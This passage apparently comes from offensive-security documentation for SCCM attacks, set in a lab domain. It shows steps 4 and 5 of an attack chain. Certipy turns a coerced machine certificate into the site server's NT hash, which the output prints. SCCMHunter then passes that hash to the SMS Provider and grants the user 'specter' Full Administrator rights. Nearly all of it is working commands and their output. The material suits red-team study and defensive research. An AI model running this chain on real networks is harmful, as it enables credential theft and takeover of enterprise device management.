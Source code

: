 4. Use `certipy` to recover the coerced target's NT hash:

    ```
    └─# certipy auth -pfx sccm.pfx
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Using principal: sccm$@internal.lab
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'sccm.ccache'
    [*] Trying to retrieve NT hash for 'sccm$'
    [*] Got hash for 'sccm$@internal.lab': aad3b435b51404eeaad3b435b51404ee:075f745ec2daeb97c87b30d1d394f28b
    ```

5. Use `SCCMHunter` to authenticate to an SMS Provider as the site server and grant a user the Full Administrator role:

```
└─# python3 sccmhunter.py admin -u sccm\$ -p aad3b435b51404eeaad3b435b51404ee:075f745ec2daeb97c87b30d1d394f28b -ip 10.10.100.9
    
[06:53:08 PM] INFO     [!] Enter help for extra shell commands                                                                                               
() C:\ >> show_admins 
[06:53:11 PM] INFO     Tasked SCCM to list current SMS Admins.                                                                                               
[06:53:11 PM] INFO     Current Full Admin Users:                                                                                                             
[06:53:11 PM] INFO     lab\Administrator                                                                                                                     
() (C:\) >> get_user specter
[06:53:13 PM] INFO     [*] Collecting users...                                                                                                               
[06:53:13 PM] INFO     [+] User found.                                                                                                                       
[06:53:14 PM] INFO     ------------------------------------------                                                                                            
                       DistinguishedName: CN=specter,OU=DOMUSERS,DC=internal,DC=lab                                                                          
                       FullDomainName: INTERNAL.LAB                                                                                                          
                       FullUserName: specter                                                                                                              
                       Mail:                                                                                                                                 
                       NetworkOperatingSystem: Windows NT                                                                                                    
                       ResourceId: 2063597574                                                                                                                
                       sid: S-1-5-21-2391214593-4168590120-2599633397-1109                                                                                   
                       UniqueUserName: lab\specter                                                                                                           
                       UserAccountControl: 66048                                                                                                             
                       UserName: specter                                                                                                           
                       UserPrincipalName: specter@internal.lab                                                                                        
                       ------------------------------------------                                                                                            
() (C:\) >> add_admin specter S-1-5-21-2391214593-4168590120-2599633397-1109
[06:53:19 PM] INFO     Tasked SCCM to add specter as an administrative user.                                                                                 
```